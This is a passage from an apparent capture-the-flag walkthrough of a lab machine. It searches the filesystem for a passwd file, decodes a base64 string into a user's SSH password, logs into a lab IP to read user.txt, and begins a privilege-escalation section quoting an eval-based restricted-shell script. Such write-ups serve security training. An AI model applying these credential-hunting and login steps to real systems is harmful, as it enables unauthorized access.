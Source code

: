 ```
find / -name passwd -type f 2>/dev/null
```

We got `/usr/share/passwd`

contents from `/usr/share/passwd` : `c2FydGhhayA9IFNhcnRoYWtfaXNfbm9vYiM=`

Looks like it is base64, let's decode it

```
echo c2FydGhhayA9IFNhcnRoYWtfaXNfbm9vYiM= | base64 -d
```

We found the password for sarthak `sarthak = Sarthak_is_noob#`


Now login ssh with 

```
ssh sarthak@192.168.56.153 -p 18899
```

with `Sarthak_is_noob#` password

Grab the `user.txt` flag

```
cat /home/sarthak/user.txt
```

## Privilege Escalation


The last line after we login in is ` *** You have only 3 chances *** `

Let's check the code of this file by it's location in `.bashrc` file

```
/opt/limit.sh
```

```
#!/bin/bash

MAX_C=3

CC=0
USER=$(whoami)
TERMINAL=$(tty)

echo "*** You have only $MAX_C chances ***" > "$TERMINAL"

while [ "$CC" -lt "$MAX_C"  ]
do
	read -p "$(whoami)@$(hostname):$(pwd)$ " C
	let "CC++"

	if [ "$CC" -eq "$MAX_C" ]
	then
		echo "Max commands used."
		echo "User $USER has been Terminated!"
		pkill -KILL -u $USER
		exit 0
	fi
	eval "$C"

done
```
